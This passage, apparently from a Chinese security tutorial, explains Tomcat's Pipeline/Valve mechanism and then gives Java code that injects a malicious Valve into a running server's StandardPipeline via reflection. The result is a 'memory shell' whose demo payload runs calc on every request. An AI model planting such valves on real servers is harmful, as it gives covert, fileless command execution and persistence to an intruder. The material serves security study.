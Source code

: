 **四大组件Engine/Host/Context/Wrapper都有自己的Pipeline**，在ContainerBase基类里定义了Pipeline:

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221229124307546.png)

而StandardPipeline标准类里有addValve方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221229124444164.png)

#### 3.调用valve

在CoyoteAdapter.service()获取了Pipeline的第一个Valve，并且调用了invoke

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221229125043383.png)

这里的第一个valve就是StandardEngineValve

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221229125227060.png)

跟进到StandardEngineValve#invoke，可以看到调用了下一个invoke，在左下角的调试框，也就是valve.invoke的调用顺序

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221229125422446.png)



根据valve的生成和配置，模拟注册恶意valve：

1. 获取context
2. 从StandardContext反射获取StandardPipeline
3. 调用addValve添加恶意Valve



### 1. 获取context

```java
Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);

    final Request request1 = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) request1.getContext();
```

### 2. 反射获取StandardPipeline



```java
Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline standardPipeline1 = (StandardPipeline) pipelineField.get(standardContext);
```

### 3. 创建注册恶意valve并添加进standardPipeline

```java
 ValveBase valveBase = new ValveBase() {
        @Override
        public void invoke(Request request, Response response){
            try {
            	Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    };

    standardPipeline1.addValve(valveBase);

```
